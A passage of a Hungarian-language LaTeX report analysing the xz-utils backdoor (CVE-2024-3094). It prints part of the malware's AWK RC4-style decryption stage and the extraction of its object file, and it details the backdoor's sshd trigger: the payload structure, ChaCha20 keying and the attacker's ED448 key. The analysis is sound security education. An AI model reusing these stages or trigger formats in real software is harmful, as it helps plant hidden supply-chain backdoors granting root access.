    t[sprintf("x%key", i)] = i;
    key[i] = ((i * 7) + 5) % m;  # Creating the cipher key.
  }
  i=0;  # Skipping 4096 first bytes of the output PRNG stream.
  j=0;  # it's a typical RC4 thing to do.
  for(l = 0; l < 4096; l++) {  # 5.6.1 uses 8192 instead.
    i = (i + 1) % m;
    a = key[i];
    j = (j + a) % m;
    key[i] = key[j];
    key[j] = a;
  }
}

{  # Decription part.
  # Getting the next byte.
  v = t["x" (NF < 1 ? RS : $1)];

  # Iterating the RC4 PRNG.
  i = (i + 1) % m;
  a = key[i];
  j = (j + a) % m;
  b = key[j];
  key[i] = b;
  key[j] = a;
  k = key[(a + b) % m];

  # As pointed out by @nugxperience, RC4 originally XORs the encrypted byte
  # with the key, but here for some add is used instead (might be an AWK thing).
  printf "%key", (v + k) % m
}
    \end{lstlisting}

    \item Amiután a bemenetet sikeresen dekriptálta, tömöríti:
    \begin{lstlisting}[language=bash]
xz -dc --single-stream
    \end{lstlisting}

    \item Végül az \lstinline{N (0)}-tól a \lstinline{W ~(86KB)}-ig terjedő bájtokat a szokásos \lstinline{head parancsos} trükkökkel kivágják, és \lstinline{liblzma\_la-crc64-fast.o} néven elmentik. Ez lesz a végleges bináris backdoor.
\end{enumerate}

\subsection{Mi történt volna ezek után?}

\subsubsection{Hasznos információk a backdoor vizsgálatával kapcsolatban}

Mielőtt bele kezdenék a részletesebb magyarázatba, fontosnak tartottam megemlíteni, hogy a backdoor működésének vizsgálására létre is jött több külső fejlesztés, projekt is, ezek közül az alábbi GiHub repository-t emelném ki: \href{https://github.com/amlweems/xzbot?tab=readme-ov-file#backdoor-format}{https://github.com/amlweems/xzbot}, ahol részletekbe menően el van magyarázva, hogyan lehet ezt a backdoort megvizsgálni, illetve tesztelni biztonságos körülmények között.

\subsubsection{Hogyan is működik a backdoor?}

Az SSH nyilvános kulcs ellenőrzése során, ha a nyilvános kulcs megfelel egy bizonyos fingerprint-nek, a kulcs tartalmát egy előre megosztott kulcs segítségével visszafejti, mielőtt a nyilvános kulcs tényleges ellenőrzése megtörténne. A visszafejtett tartalom ezután közvetlenül a rendszerbe kerül.

Ha az fingerprint nem egyezik, vagy a visszafejtett tartalom nem felel meg egy bizonyos formátumnak, akkor a rendszer visszatér a normál kulcsellenőrzéshez.

A hátsó ajtó a \lstinline{glibc} egy kevésbé ismert funkcióját használja ki egy függvény bekapcsolására, és csak akkor lép működésbe, ha a backdooros xz könyvtár betöltésre került az \lstinline{/usr/bin/sshd} folyamat által az egyik érintett disztribúción. (Mivel az sshd adminisztrátori hozzáférést igényel a futáshoz, ezáltal a backdoor is adminisztrátori hozzáférést nyert volna el.)

Amint előzőleg, részletekbe menően láthattuk, a backdoor payload-ot az xz tesztfájlokba kódolták. Ez futtatva megváltoztatja az \lstinline{SSH RSA} kulcsellenőrző kódot, hogy egy "mágikus" nyilvános kulcs (amelyet a normál hitelesítés során küldtek el) lehetővé tegye a támadó számára a hozzáférést.\cite{Goodin_2024}

Részletesebben magyarázva, a backdoor egy olyan SSH tanúsítvánnyal való csatlakozással triggerelhető, amelynek a CA aláíró kulcs N értékében van egy olyan payload, ami a támadó \lstinline{ED488}-as kulcsával kell legyen aláírva és titkosítva.

Ez a payload, amint fentebb is említettem, kell kövessen egy bizonyos előre megszabott struktúrát. A struktúra része egy \lstinline{240 byte} hosszú ciphertext, illetve pár kisebb mágikus érték: \lstinline{cmd1 (32 bit), cmd2(32 bit)} és \lstinline{cmd3(64 bit)}.

A parancs bájt a három mágikus értékből tevődik össze a következő képpen: cmd1 $\cdot$ cmd2 + cmd3, és ha ez az érték meghaladja a 3-at akkora backdoor kiugorja a feldolgozást.
\begin{lstlisting}[language=bash]
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
      |   cmd1 (32 bit)  |   cmd2 (32 bit)  |      cmd3 (64 bit)      |
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
      |                                                               |
      +                     ciphertext (240 bytes)                    +
      |                                                               |
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
\end{lstlisting}

A ciphertext-et, rejtjelezett szöveget a chacha20 segítségével kódolták, szimmetrikus kulcsként az ED448 nyilvános kulcs első 32 bájtját használva.

Tudjuk az, hogy a támadó ED448 publikus kulcsa a következő:
\begin{lstlisting}[language=bash]
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
\end{lstlisting}

Tehát ez alapján a rejtjelezett szöveget tudjuk dekriptálni a következő kulcs-al:
\begin{lstlisting}[language=bash]
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
\end{lstlisting}

A dekriptált ciphertext a következő formátumot követte:
\begin{lstlisting}[language=bash]
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
      |                    signature (114 bytes)                      |
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
      | x (1 bit) |            unused ? (14 bit)          | y (1 bit) |
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
      |        unknown (8 bit)        |         length (8 bit)        |
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
      |        unknown (8 bit)        |         command \x00          |
      +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
\end{lstlisting}

Az x és az y beállítása kissé eltérő code path-ekhez vezet.
Az RFC-8032 ED448 signature a következő értékekkel lesz kiszámolva:
\begin{itemize}
    \item A 32 bites magic value (pl. 02 00 00 00 00)
    \item A parancs előtti 5 bájtnyi mező [opcionális] a parancs hosszbájtjai
    \item Illetve a kiszolgáló hostkey sha256-os hash-jének első 32 bájtja.
\end{itemize} 

Ami rendkívül ijesztő, hogy amilyen ködösen és alattomosan rejtették el a backdoor-t a teszt fájlokban, pont ugyanolyan alattomossággal rejtették el a parancsot amit a megfertőzött szerveren szeretnének futtatni, az SSH tanusítványok CA signing kulcsának N értékében. Ez azért is ijesztő, mert az emberek nem gyanakodnának erre, hiszen egy kriptográfiai kulcs csere során lényegében hasonló randomnak tűnő bináris adatokat küldünk és kapunk. Az hogy ezekben az adathalmazokban nem kívánt parancsok lettek volna elrejtve senkinek nem tűnt volna fel, hiszen normális esetben az emberek nem vizsgálnák ezeket a bináris adatokat.

Lényegében ez a backdoor lehetővé tette volna, hogy a támadó adminisztrátori hozzáférést kapjon bármely gép, szerver felett, ahol lefut az SSH parancs, amely tartalmazza a backdoort.\cite{YouTube_2024}

\section{Összegzés}

Az \autoref{fig:xz-overview} egy jó áttekintésként szolgál arra, hogy meg lehessen érteni mennyire komplex volt ez a támadás. Sajnos sok minden nem tiszta még a támadás kivitelezésének technikai szempontjából, hiszen nagyon ködösítve volt minden része a fellelhető adatoknak is. Viszont úgy gondolom, hogy azáltal, hogy kiderült nem csak kivédtünk egy hihetetlenül veszélyes támadást (amely CVE-2024-3094, 10-es besorolást kapott), hanem ez az eset is felhívta a figyelmet arra, hogy mennyire fontos lenne több figyelmet szentelni a nyílt forráskódú szoftverek fejlesztőire. Nagyon sokszor ezek az emberek tiszta ingyen dolgoznak, egy-egy kulcsfontosságú szoftveren a mai modern digitális infrastruktúra szempontjából. Több segítséget kellene nyújtsanak azok a cégek, amelyek felhasználják ezeket a szoftvereket az ilyen fejlesztőknek mint Lasse, hiszen nélkülük nem működne a mai világ, ahogy azt megéljük.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\textwidth]{assets/xz-backdoor-graphic-thomas-roccia-640x896.jpg}
    \caption{Az XZ Backdoor áttekintése - (CVE-2024-3094)}
    \label{fig:xz-overview}
    \cite{Roccia_2024}
    \FloatBarrier
\end{figure}

Amennyire ártalmas lehetett volna viszont, annyi hasznot is hozott a támadás, az XZ projekt nagy publicitást kapott, sok fejlesztő nyitott volt, és segítséged ajánlott fel a projekt rendbehozásához. Az xz fejlesztői jelenleg is dolgoznak a fertőzött elemek eltávolításán, és a hibás elemek kijavításán. Lasse saját oldalán azt nyilatkozta, hogy szeretne egy cikket írni az esettel kapcsolatban, ahol több betekintést adna arra, hogy mi is történt valójában, viszont most jelenleg a projekt javítása a rövidtávú céljuk. \cite{Collin_2024}
A biztonsági szakembereknek sem lankadhat a figyelmük, hiszen talán ez volt az első eset, amikor valaki bináris teszt fájlokba, ennyire ködösítve rejtett el a backdoort. Valószínű, hogy a jövőre nézve sok hasonló stílusú támadás lesz megfigyelhető.
Az kérdéses, hogy más szoftverek érintettek-e ilyen és hasonló támadások által, viszont ami biztos, az hogy a sok önkéntes nélkül akik éjszakákat, és heteket töltöttek a kódok visszafejtésében, nem érthettük volna meg a támadás mértékét. Véleményem szerint ez is egy jó példája annak, hogy mennyire erős az open source fejlesztőkből és  kutatókból álló közösség, és hogy együttes erővel fantasztikus dolgokat tudunk létrehozni és megvédeni a támadóktól.


\clearpage
\bibliographystyle{alpha}
\bibliography{refs}

\clearpage
\tableofcontents

\end{document}